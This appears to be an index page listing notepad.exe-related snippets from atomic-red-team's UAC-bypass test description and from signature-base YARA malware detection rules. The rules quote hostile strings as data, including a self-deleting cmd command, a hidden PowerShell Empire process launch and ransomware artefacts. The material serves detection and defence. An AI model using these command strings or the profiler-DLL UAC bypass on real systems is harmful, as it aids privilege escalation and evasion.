[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1574.012.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.012/T1574.012.md) | the notepad process will not execute with high integrity. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1574.012.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.012/T1574.012.md) | level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. If the account used is not a local administrator the profiler DLL will | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1574.012.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.012/T1574.012.md) | still execute each time the CLR is loaded by a process, however, the notepad process will not execute with high integrity. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_bluetermite_emdivi.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_bluetermite_emdivi.yar) | $s4 = "\\NOTEPAD.EXE" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_molerats_jul17.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_molerats_jul17.yar) | $s2 = "Notepad++.exe" fullword wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_olympic_destroyer.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_olympic_destroyer.yar) | $s3 = "\\system32\\notepad.exe" fullword wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_poisonivy.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_poisonivy.yar) | $s0 = "\\notepad.exe" fullword ascii /* score: '11.025' */ | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_ta17_293A.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_ta17_293A.yar) | $au2 = "/notepad.png" | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_wildneutron.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_wildneutron.yar) | $n1 = "/c for /L %%i in (1,1,2) DO ping 127.0.0.1 -n 3 & type %%windir%%\\notepad.exe > %s & del /f %s" fullword ascii /* PEStudio Blacklist: strings */ /* score: '46.00' */ | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_woolengoldfish.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_woolengoldfish.yar) | $s4 = "oShellLink.IconLocation = \"notepad.exe, 0\"" fullword | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [crime_ransom_ragna_locker.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/crime_ransom_ragna_locker.yar) | $s2 = "\\notepad.exe" fullword wide /* Show ransom note to the victim*/ | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_cn_hacktools.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_cn_hacktools.yar) | $s14 = "NOTEPAD.EXE result.txt" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_powershell_empire.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_powershell_empire.yar) | $s2 = "$proc = Start-Process -WindowStyle Hidden notepad.exe -PassThru" fullword ascii  | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [thor_inverse_matches.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/thor_inverse_matches.yar) | description = "Abnormal notepad.exe - typical strings not found in file" | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [thor_inverse_matches.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/thor_inverse_matches.yar) | $winxp = "Software\\Microsoft\\Notepad" wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [thor_inverse_matches.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/thor_inverse_matches.yar) | $winxp_de = "Software\\Microsoft\\Notepad" wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [thor_inverse_matches.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/thor_inverse_matches.yar) | filename == "notepad.exe" | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)

MIT License. Copyright (c) 2020 Strontic.

